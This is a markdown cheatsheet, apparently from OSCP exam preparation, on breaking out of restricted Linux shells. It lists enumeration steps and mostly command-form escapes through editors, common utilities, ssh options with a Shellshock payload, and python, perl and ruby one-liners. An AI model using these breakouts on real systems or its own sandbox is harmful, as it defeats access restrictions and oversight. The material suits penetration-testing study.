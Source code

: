 ```yaml
---
title: Escaping Jailed Shells
date: 2020-06-26 13:17:48
tags: [oscp, cheatsheet, linux]
---
```


# Escaping Jailed Shells

*You can execute in-built shell commands, as well as the ones in your PATH*

## Enumerate
* Get environment variables: `env` or `printenv` 
* Any programs as different user: `sudo -l`
* Check current PATH: `echo $PATH`
* List contents of PATH:
    * `ls path/to/PATH`
    * `echo path/to/PATH/*`
* List export variables: `export -p`

## Research
**Research each executable command, look for odd parameters**
Check out:
* man pages
* GTFOBins
* Vulnerabilities in the command

## Attack Vectors
* If "/" is allowed, `/bin/bash`

### Writable PATH
* If PATH is writable, game on!
    * `export PATH=/usr/local/bin:/usr/bin:/bin:$PATH`

### Editors
* vi, vim, man, less, more
``` bash
:set shell=/bin/bash
:shell
# or
:!/bin/bash
```
* nano
``` bash
# Control - R, Control - X
^R^X
reset; sh 1>&0 2>&0
```
* ed
`!'/bin/sh'`

### Common Tools
``` bash
# cp
cp /bin/sh /current/PATH

# ftp
ftp
ftp>!/bin/sh

# gdb
gdb
(gdb)!/bin/sh

# awk
awk 'BEGIN {system("/bin/bash")}'

# find
find / -name bleh -exec /bin/bash \;

# expect
expect
spawn sh
```

### SSH
``` bash
# exec commands before remote shell are loaded
ssh test@victim -t "/bin/sh"

# start ssh without loading any profile
ssh test@victim -t "bash --noprofile"

# try shellshock
ssh test@victim -t "() { :; }; /bin/bash"
```

### Scripting Languages
``` bash
# python
python -c 'import os;os.system("/bin/bash")'

# perl
perl -e 'exec "/bin/sh";'

# ruby
ruby -e 'exec /bin/sh'
```

### Writing To a File
``` bash
echo "hello world!" | tee hello.sh
echo "append to the same file" | tee -a hello.sh
```

## Resources
[SANS](https://www.sans.org/blog/escaping-restricted-linux-shells/)
[Hacking Articles](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/)
[Escape From SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
